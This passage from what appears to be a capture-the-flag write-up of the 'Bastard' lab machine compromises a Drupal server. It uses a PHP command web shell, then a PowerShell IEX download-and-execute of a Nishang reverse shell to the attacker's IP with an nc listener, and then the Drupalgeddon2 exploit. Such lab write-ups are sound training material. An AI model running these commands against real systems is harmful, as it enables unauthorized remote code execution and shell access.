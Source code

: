 ```bash
sudo tcpdump -i tun0 icmp -n

# view-source:http://10.129.115.148/oldb0y.php?cmd=ping%2010.10.14.238

cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 ./PS.ps1
nvim !$
cat !$ | tail -n 2
# Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.238 -Port 443

sudo rlwrap -cAr nc -nlvp 443
python3 -m http.server 80

# view-source:http://10.129.115.148/oldb0y.php?cmd=C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe%20IEX(New-Object%20Net.WebClient).downloadString(%27http://10.10.14.238/PS.ps1%27)
# :)
```

> **Victime Machine**:

```cmd
whoami
hostname
```

<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

There are other exploits that allow to automate the whole Web server compromise and get an interactive Shell, with `searchsploit` I find the **[Drupalgeddon2](https://success.trendmicro.com/en-US/solution/KA-0008297){:target="_blank"}** tool that I can download on my attacking machine. After converting the tool to a **Unix** format with `dos2unix` and installing a missing **gem** (since the script is written in **Ruby**) I can now run the exploit successfully and again access the system without resorting to my browser.

> Important Information about the Drupal "Drupalgeddon2" Vulnerability: On March 28, 2018, **Drupal** - one of the world's largest open-source web content management platforms reportedly used by over one million sites - issued a highly critical security advisory (**SA-CORE-2018-002**) which highlights a remote code execution (**RCE**) vulnerability in versions 6, 7, and 8 of the platform, that if left unpatched, could allow a potential unauthenticated attacker to exploit multiple attack vectors on a site and fully compromise it.

> The **[dos2unix](https://ioflood.com/blog/dos2unix-linux-command/){:target="_blank"}** command is a **Linux** utility used to convert text files from **DOS/MAC** format to **Unix** format with the syntax, dos2unix [options] [filename].

> **Attacker Machine**:

```bash
searchsploit drupal 7.
# php/webapps/44449.rb

searchsploit -m php/webapps/44449.rb
mv 44449.rb drupalggedon2.rb
dos2unix drupalggedon2.rb
ruby drupalggedon2.rb

sudo gem install highline
ruby drupalggedon2.rb
ruby drupalggedon2.rb http://10.129.115.148
```
